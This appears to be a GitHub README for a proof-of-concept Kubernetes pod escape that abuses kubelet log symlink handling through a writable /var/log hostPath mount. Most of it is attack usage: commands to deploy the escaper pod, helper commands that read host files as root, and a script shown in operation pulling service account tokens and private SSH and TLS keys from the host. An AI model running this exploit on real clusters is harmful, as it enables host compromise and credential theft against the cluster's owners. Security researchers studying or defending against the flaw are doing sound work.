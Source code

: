 # Kubelet Exploit For /var/log Mount

Kube-pod-escape is a POC for the an exploit on the symlink following behaviour of logs files serving in the kubelet, in addition with a pod that has a write hostPath mount to /var/log.  
This POC shows the outcome of a pod which uses that mount, and how it can escape to the host machine.  
Further read on this discovery can be done on the following: <link_to_blog>

This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster, 
Without restriction for retrieving logs with `kubectl logs <pod>`


## Run the exploit

First, create the pod by:
    
```bash
$ kubectl create -f escaper.yml
pod "escaper" created
```

After the pod was created, exec into the escaper pod.
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh
Usage: [cath|lsh] <host_path>
```
### lsh
Works like ls, but using root access on the host machine.
### cath
Works like cat, but using root access on the host machine.

Example:
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh /proc
1/
10/
10034/
10042/
10047/
....
```

## Extract Sensitive Data
In addition to the given lsh and cath commands, Inside the `~/exploit` folder, there's a python script, which automatically locates and downloads private key files from the host, as well as kubernetes service account tokens.  
_(to find tokens, the script searches the /var/lib/kubelet/pods folder. this way it can read the mounted .token files for each pod that runs on the host)_

## Run the script
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ python find_sensitive_files.py
[*] Got access to kubelet /logs endpoint
[+] creating symlink to host root folder inside /var/log

[*] fetching token files from host
[+] extracted hostfile: /var/lib/kubelet/pods/6d67bed2-abe3-11e9-9888-42010a8e020e/volumes/kubernetes.io~secret/metadata-agent-token-xjfh9/token

[*] fetching private key files from host
[+] extracted hostfile: /home/ubuntu/.ssh/private.key
[+] extracted hostfile: /etc/srv/kubernetes/pki/kubelet.key
...
```
Token Files are downloaded to: `/root/exploit/host_files/tokens`  
Key Files are downloaded to: `/root/exploit/host_files/private_keys`

